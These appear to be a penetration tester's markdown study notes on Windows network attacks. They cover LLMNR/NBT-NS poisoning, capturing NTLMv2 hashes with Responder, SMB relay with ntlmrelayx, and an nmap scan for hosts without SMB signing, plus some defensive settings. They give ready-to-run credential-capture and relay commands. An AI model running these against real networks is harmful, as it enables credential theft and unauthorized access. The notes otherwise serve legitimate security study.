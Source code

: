 #### LLMNR Poisoning
- Link Local multicast name resoluton
- NETBIOS / DNS
- MITM Type Attack - We respond to the request
- The issue is that username and hash are given with correct response
- Tools
    - Impacket / Responder [Start before nmap and nessus scan]

##### LLMNR Poisoning Defense
- Turn off Multicast name resolution
```
[Local Computer Policy  / Computer Config / Admin Templatesd / Network / DNS Client]
```
- Disable NBT-NS
```
[Network Adapter Properties / TCP Properties / Advanced / Wins / Disable Netbios over TCP/IP ]
```
    Else:
        - Require Network Access Control
        - Strong Passwords



#### Capture NTMLv2 hashes with Responder
```bash
sudo responder -I eth0 -dw
```

#### SMB Relay Attacks
Instead of cracking hashes, relay credentials instead
- SMB signing needs to be off
- Relayed creds must be admin on machine


```bash
/etc/responder/Responder.conf # SMB = Off / HTTP = Off
python ntlmrelayx.py -ft targets.txt -smb2support
```

> SAM Hashes
Local user hashes / Windows version of ```/etc/passwd``` for local users

#### Discovering Hosts with SMB signing disabled
> Defaults

- Local machines = Off
- Servers = On

> Find via

- nessus scan
- nmap

```bash
sudo nmap --script=smb2-security-mode -p 445 192.168.131.0/24
```
